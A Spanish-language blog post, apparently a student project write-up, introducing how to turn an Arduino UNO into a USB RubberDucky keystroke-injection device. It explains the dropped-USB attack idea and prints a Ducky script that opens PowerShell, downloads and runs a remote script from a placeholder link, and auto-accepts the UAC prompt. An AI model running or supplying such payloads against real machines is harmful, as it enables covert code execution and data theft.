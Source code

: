 ```yaml
---
title: "COMO CREAR UN RUBBERDUCKY CON UN ARDUINO UNO"
layout: post
date: 2021-09-28 00:42
tag: Arduino UNO, RubberDucky, Hardware, Hack, Se tensó
image: 
headerImage: true
projects: true
hidden: true
description: "Como crear un rubberducky con un Arduino UNO"
category: project
author: Carlos
externalLink: false
---
```

Muy buenas todos, hace tiempo en el 2º año de SMR (Sistemas Microinformáticos y Redes) nos mandaron a toda la clase hacer un proyecto con el Arduino UNO, nos dieron la libertad de hacer cualquier cosa, hubo gente que hicieron una impresora, otros un semáforo con luces, otros un mini altavoz que emitia pitidos y yo me propuse hacer un RubberDucky con la placa Arduino UNO.
Entonces empecé a investigar y justamente [**S4vitar**](https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q) subió un vídeo de como convertir el arduino uno en un rubberducky, parece que los planetas se alienaron porque la verdad es que no se. 
## Tabla de contenido
* [Introducción al USB RubberDucky](#introducción-al-usb-rubberducky)
* [Lenguaje del código de un RubberDucky](#lenguaje-del-código-de-un-rubberducky)
* [Introducción al Arduino UNO](#introducción-al-arduino-uno)
* [Instalando Duckduino](#instalando-duckduino)
* [Comenzamos a reconfigurar el Arduino](#comenzamos-a-reconfigurar-el-arduino)
* [Preparando el Arduino antes de conectarlo](#preparando-el-arduino-antes-de-contectarlo)
* [Preparando el script a cargar en el Arduino](#preparando-el-script-a-cargar-en-el-arduino)
* [Subimos el código al Arduino / RubberDucky](#subimos-el-código-al-arduino-/-rubberducky)
* [Ejecutamos el paso final para escribir el firmware del teclado](#ejecutamos-el-paso-final-para-escribir-el-firmware-del-teclado)
* [Probando nuestro RubberDucky 100% funcional](#probando-nuestro-rubberducky-100-funcional)

## Introducción al USB RubberDucky
> Por rubber ducky se conoce a un dispositivo USB que contiene información "maliciosa" la cual podría infectar tu PC una vez que lo conectas a ella. Esta información podría ser un keylogger, un encriptador de información o cualquier otra herramienta para apropiarse de tu **información** o negarte el uso a ella.

<div class="usb">
    <img src="/assets/images/rubberducky1.jpg" align="right">
</div>

> <p>Al momento de conectar este USB, es reconocido con un dispositivo HID, haciéndose pasar por un teclado normal (para no levantar sospechas y evitar que sea bloqueado por antivirus o firewall) y ejecuta las teclas indicadas en su código.</p>
> <p>En definitiva, es un ataque que puede sembrar el caos en una empresa porque si alguien deja un pendrive en una mesa es casi al 100% seguro que alguien lo enchufara para ver qué es y lo que menos se puede imaginar es que este USB este enviando una reverse shell o que este desactivando programas.</p>

## Lenguaje del código de un RubberDucky
- REM --> Indica comentarios, estas lineas no ejecutan nada. 
- DELAY --> Hace una pausa, en el caso del ejemplo de 3 segundos al principio y más adelante de medio segundo para esperar a que salga la ventana de ejecutar. 
- GUI r --> Es la pulsación de la tecla WIN y la “r”, que sirve para los sistemas operativos Windows para mostrar rápidamente la ventana de ejecutar. 
- STRING --> Es la pulsación de todas las teclas de manera automática y a gran velocidad. 
- ENTER --> Pulsa la tecla enter.

{% highlight c %}
REM Wifi-Grab
DELAY 500
GUI r
REM Delays 0.2 seconds to give the Run prompt time to open.
DELAY 200
REM this command will download the text and save as d.ps1 then run
REM if the script failed to run change the ExecPolicy to Bypass
STRING powershell /w 1 /C Set-ExecutionPolicy RemoteSigned;wget "DOWNLOAD_LINK" -o \d.ps1;\d.ps1
REM Presses Ctrl + Shift + Enter to execute the PowerShell with administrative privileges.
CTRL-SHIFT ENTER
REM Delay 0.5 seconds to give the UAC prompt time to open.
DELAY 500
REM Presses Alt + Y to bypass UAC.
ALT y
{% endhighlight %}
En el caso de utilizar Arduino hay que convertir este código con alguno de los conversores [Duckduino](https://github.com/Dukweeno/Duckuino) o [Ducky2Arduino](https://github.com/kr0no/Ducky2Arduino)
<p>Pero nosotros no vamos a utilizar estos conversores porque después nos montaremos nuestro propio script con el lenguaje de Arduino que es parecido a C.</p>
